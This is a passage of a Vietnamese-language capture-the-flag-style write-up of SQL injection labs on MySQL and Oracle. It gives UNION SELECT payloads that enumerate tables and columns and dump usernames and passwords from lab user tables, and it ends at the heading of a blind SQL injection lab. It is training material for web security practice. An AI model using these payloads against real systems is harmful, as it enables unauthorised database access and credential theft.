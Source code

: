 ![image-26](https://gist.github.com/user-attachments/assets/3fb169a7-aa8d-4664-980c-7d628d1674a0)

Payload:`' union select NULL,column_name from information_schema.columns where table_name = 'users_pjzcyr' -- -`

Sau đó từ 2 cột này ta sẽ lấy thông tin của tất cả user có trong bảng

![image-27](https://gist.github.com/user-attachments/assets/aeceb599-59c9-41a4-9480-1c0f85d182c9)

Payload: `union select username_yvexiw, password_vgbnsx from users_pjzcyr -- -`


## Lab: SQL injection attack, listing the database contents on Oracle

Câu này tương tự câu trên chỉ đổi database thôi

Số cột vẫn là 2

![image-28](https://gist.github.com/user-attachments/assets/528144c5-b9ce-4456-9e57-cc3a5e373418)

Payload:`' order by 2 -- -`

Mình đã thử tìm tên table như cách dùng với MySQL tuy nhiên không thành công, sau đó mình đã tìm hiểu và biết được rằng **information_schema** trong Oracle không chứa table_name mà là bẳng ALL_TABLES, đọc thêm: [StackOverflow](https://stackoverflow.com/questions/55037468/oracle-equivalent-of-information-schema-tables), [Document](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)

![image-29](https://gist.github.com/user-attachments/assets/704c1cf3-8c50-473a-8325-986d15828b51)

![image-30](https://gist.github.com/user-attachments/assets/020baf9b-f092-41fc-9ed9-25c86946621c)

Payload:`'union select NULL, table_name from all_tables -- -`

Tìm ra table trong database tiếp theo tìm ra database và cột thôi

Không như MySQL Oracle không chứa **column_name** trong **information_schema** mà chứa trong **all_tab_columns**, đọc thêm: [StackOverflow](https://stackoverflow.com/questions/8739203/oracle-query-to-fetch-column-names), [Document](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TAB_COLUMNS.html)

![image-32](https://gist.github.com/user-attachments/assets/37ac0c64-27c9-4d2c-8025-c79fff4a3c13)

![image-31](https://gist.github.com/user-attachments/assets/7fe1732e-bf64-428b-a64f-516ec110421b)

Payload:`' UNION SELECT NULL, column_name FROM all_tab_columns WHERE table_name = 'USERS_SUDJWQ' -- -`

![image-33](https://gist.github.com/user-attachments/assets/60efd9ee-808e-4048-9ca6-c6ec0e821251)

Payload:`'UNION SELECT USERNAME_DGFUYS,PASSWORD_BUIFQE FROM USERS_AKIBVQ -- -`

## Lab: Blind SQL injection with conditional responses
